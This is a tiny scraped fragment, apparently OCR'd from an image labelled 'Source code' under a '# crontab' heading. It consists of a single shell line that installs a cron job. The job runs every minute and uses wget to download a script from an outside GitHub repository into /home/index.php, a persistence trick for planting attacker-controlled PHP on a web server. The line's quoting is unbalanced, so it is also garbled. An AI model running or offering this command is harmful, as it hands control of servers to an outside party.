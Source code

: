 # crontab
echo " * * * * * wget -q https://raw.githubusercontent.com/Anonrocks/crontab/refs/heads/main/crontab.sh -O /home/index.php | crontab -
